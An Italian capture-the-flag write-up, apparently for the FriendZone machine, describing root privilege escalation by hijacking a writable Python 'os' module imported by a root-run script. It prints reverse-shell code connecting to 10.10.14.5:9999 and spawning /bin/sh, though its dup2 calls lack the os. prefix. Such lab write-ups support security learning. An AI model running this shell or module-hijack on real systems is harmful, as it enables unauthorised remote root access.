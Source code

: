 Scopro di avere soltanto i permessi in lettura per il file _reporter.py_, quindi cerco di studiare il contenuto alla ricerca di qualcosa di interessante:

```text
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

Perdo un po di tempo prima di capire che l'informazione importante risiede nel modulo importato, ovvero _os_.

Infatti, scopro di avere permessi illimitati per quanto riguarda questo file e per questo motivo posso sfruttarlo per ottenere una reverse shell con privilegi root.

Con la shell attualmente in uso non ho la possibilità di modificare il file tramite il comando _nano_. Quindi seguo [questa](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) guida per capire come ottenere una shell migliore.

Quindi modifico il file nel seguente modo:

```text
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.5",9999));
dup2(s.fileno(),0); 
dup2(s.fileno(),1);
dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

E avvio un listener sulla porta 9999.

**Ottengo così una shell con privilegi root!**
